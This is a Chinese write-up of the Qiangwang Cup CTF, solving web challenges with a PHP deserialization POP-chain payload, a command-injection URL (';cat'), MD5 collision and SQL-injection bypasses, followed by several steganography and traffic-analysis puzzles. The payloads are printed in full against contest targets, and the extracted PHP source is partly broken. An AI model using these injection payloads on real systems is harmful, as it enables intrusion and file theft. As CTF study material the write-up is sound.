大菜鸡终于开始有了输出！
可惜今年misc只有一道题qwq
强网先锋
WEB辅助|solved
因为菜鸡看题的晚，现在过来进行分析，给了源码
index.php
play.php
get_admin() === 1){
echo "FPX Champion\n";
}
else{
echo "The Shy unstoppable\n";
}
?>class.php
user = $user;
$this->pass = $pass;
$this->admin = $admin;
}
public function get_admin(){
return $this->admin;
}
}
class topsolo{
protected $name;
public function __construct($name = 'Riven'){
$this->name = $name;
}
public function TP(){
if (gettype($this->name) === "function" or gettype($this->name) === "object"){
$name = $this->name;
$name();
}
}
public function __destruct(){
$this->TP();
}
}
class midsolo{
protected $name;
public function __construct($name){
$this->name = $name;
}
public function __wakeup(){
if ($this->name !== 'Yasuo'){
$this->name = 'Yasuo';
echo "No Yasuo! No Soul!\n";
}
}
public function __invoke(){
$this->Gank();
}
public function Gank(){
if (stristr($this->name, 'Yasuo')){
echo "Are you orphan?\n";
}
else{
echo "Must Be Yasuo!\n";
}
}
}
class jungle{
protected $name = "";
public function __construct($name = "Lee Sin"){
$this->name = $name;
}
public function KS(){
system("cat /flag");
}
public function __toString(){
$this->KS();
return "";
}
}
?>common.php
_pop链：player中new一个topsolo类__destruct调用$name作为函数，$name为midsolo类，调用__invoke，里面的$name是jungle类stristr调用__tostring执行cat flag
str_replace(‘\0\0’, chr(0).”“.chr(0), $data); 这里是5变3
我们要吃掉strlen(‘;s:7:”pass”;s:164:”‘) 22个字符，虽然显示是20，但是旁边还有两个东西
所以就55变33吃掉22个字符,就是username的内容。

要学习直接搜字符串逃逸。
DASCTF4月赛原题
payload如下：
?username=\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0\0*\0&password=;S:7:"\00*\00pass";O:7:"topsolo":1:{S:7:"\00*\00\6e\61\6d\65";O:7:"midsolo":2:{S:7:"\00*\00\6e\61\6d\65";O:6:"jungle":1:{S:7:"\00*\00\6e\61\6d\65";S:7:"Lee Sin";}}}主动 |solved
buu上的GXCTF–Ping ~ ~的简化版
web狗的签到题
3s搞定
考点，内联执行
http://39.96.23.228:10002/?ip=127.0.0.1;cat%20ls

Funhash |solved
query($query);
$row = $result->fetch_assoc();
var_dump($row);
$result->free();
$mysqli->close();
?>三层绕过
第一层
https://evi0s.com/2019/02/09/md5-collisions/

第二层
数组绕过
第三层
万能密码
payload：
?hash1=0e001233333333333334557778889&hash2[]=1&hash3[]=0&hash4=ffifdyop
Upload|solved
一个数据包
有http，直接导出，得到两个文件，然后提示是steghide，下面那个steghide.php里面有图片，用foremost分离出来后，得到图片
因为没有给提示，尝试用steghide试试弱密码
steghide extract -sf “gs.jpg” -xf “hide.txt” -p “123456”
flag出

红方辅助|solved
给了一个数据包和一个py脚本
对协议进行一个统计分析，然后发现是ssh

wireshark追踪流，分析

从加密脚本入手得知
数据是有所对应的，

接着写脚本进行解密即可
然后发现有很多奇奇怪怪的字符
emmmm
而且很多都是相同的
去掉这些字符
得到flag
MISC
7个葫芦娃…一个流量包里面套那么多层是真的没想到
题目说难不难，说简单不简单，谁能想得到呢
level1+level2
审计流量包里面
发现这个奇怪的网址，登录，

level3
还是流量包
找到ssllog解密的数据包
接着访问数据包里面的网址
https://www.qiangwangbei.com/images/4e5d47b2db53654959295bba216858932.png
开局一张图，剩下全靠猜
拿到图片的时候还去想了想是啥
把图片下载下来
放入010editor里面分析

发现有base64码
解码得到

以及

尝试分析为二进制转字符串，此方向不同，遂联想0101转二维码
网上搜索脚本，然后进行改长与宽，最后生成60*60的二维码有效
脚本如下：
from PIL import Image
import binascii
file = open("2","r")
i=0
H=60
W=60
pic = Image.new("RGB",(W,H))
zo=file.read()
for y in range(0,H):
for x in range(0,W):
if(zo[i]=="0"):
pic.putpixel([x,y],(255,255,255))
else:
pic.putpixel([x,y],(0,0,0))
i=i+1
pic.show()
pic.save('pg得到图片如上
然后拿到level4的百度云
level4
然后又是一张图……
那么又是什么东西呢
用stegdect检测–>jphg加密，
然后爆破密码，得到密码为power123
然后得到level4和一个百度云
https://pan.baidu.com/s/1o43y4UGkm1eP-RViC25aOw
mrpt
level4_here_all
level5
一个压缩包，010editor分析，zip伪加密，修改，分离出，得到level5和一堆东西

接下来看里面有level6和level7
level6
level6的压缩里的文件都是454的长度….
尝试密码爆破，无果
emmm
454 —- CRC 都是三字节，尝试CRC爆破，得到level6
level7
因为压缩包外有1.jpg，压缩包里面也有，明文爆破，
得到两张图—>双图狂喜盲水印，试着用了好几款python的盲水印的工具–py3可以….上次遇到的那个题是py3不行，55555，windows常备双水印

接着以为拿到level7，我可是狂喜了一下，提交，啊，不对
去给的网址看看
final_level
没想到还有final_level
qwq
上去之后
接着想了一晚上提示
<!-- How did it become a blank , maybe you should pass (no one can find me)-->错失一血，让我们都觉得好沮丧
不过确实漏掉了一个点，后面去百度了跟空格且跟网页有关的隐写，发现snow隐写相近
snow解密http://fog.misty.com/perry/ccs/snow/snow/snow.html
使用密码blank、pass和no one can find me
最后key为no one can find me
得到final_level

最后得到flag：
flag{level1_begin_and_level2_is_comelevel3_start_itlevel4_here_alllevel5_is_aaalevel6_isreadylevel7isherethe_misc_examaaaaaaa_!!!}